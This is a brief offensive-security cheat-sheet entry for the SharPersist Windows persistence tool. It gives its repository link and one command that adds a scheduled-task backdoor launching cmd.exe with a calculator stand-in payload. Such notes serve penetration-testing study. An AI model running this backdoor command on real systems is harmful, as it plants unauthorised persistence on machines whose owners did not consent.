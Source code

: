 # SharPersist
% windows, persistence

#plateform/windows #target/local #cat/PERSIST

## repos and doc
```powershell
https://github.com/mandiant/SharPersist
```



## Scheduled Task Backdoor
```powershell
SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add
```